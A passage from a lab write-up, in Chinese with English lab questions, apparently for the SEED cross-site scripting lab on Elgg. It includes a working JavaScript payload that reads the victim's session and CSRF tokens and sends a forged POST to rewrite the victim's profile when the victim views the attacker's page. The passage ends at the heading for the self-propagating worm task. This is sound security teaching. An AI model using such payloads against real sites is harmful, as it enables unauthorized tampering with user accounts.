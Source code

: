 > **Question 1**: Explain the purpose of Lines 5 and 6, why are they are needed?

`ts` 和 `token` 用来验证用户身份，获取它们形成完整的 GET 请求，达到欺骗服务器的目的。

> **Question 2**: If the Elgg application only provide the Editor mode for the "About Me" field, *i.e.*, you cannot switch to the Text mode, can you still launch a successful attack?

此时在 description 处无法实施攻击。但可以压行后填写在 briefdescription 处。

# Task 5: Modifying the Victim’s Profile

这个 Task 利用 js 实现 POST 方法。修改 Samy 的 profile 如图所示

```html
<script type="text/javascript">
    window.onload = function(){
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var content=token + ts + userName +
            "&description=samy%20is%20my%20hero&accesslevel[description]=2" +
            guid;
        var samyGuid=59;
        var sendurl="http://www.seed-server.com/action/profile/edit";
        
        if(elgg.session.user.guid!=samyGuid)
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type",
                                  "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

<img src="https://i.loli.net/2021/07/21/79s6XwumyCoDMhN.png" alt="image-20210720174242188" style="zoom:67%;" />

登录 Alice 账号，查看 Samy 的 profile，看到自己的 profile 已经被修改了

<img src="https://i.loli.net/2021/07/21/591YdwBxD7M3Xcv.png" alt="image-20210720174019161" style="zoom:67%;" />

> **Question 3**: Why do we need Line 14? Remove this line, and repeat your attack. Report and explain your observation.

这行用来判断当前用户是不是攻击者自身，如果是，就不进行攻击。如果去掉这行代码，会导致攻击者保存自己的 profile 后，description 立即被改变，无法实施攻击。

# Task 6: Writing a Self-Propagating XSS Worm
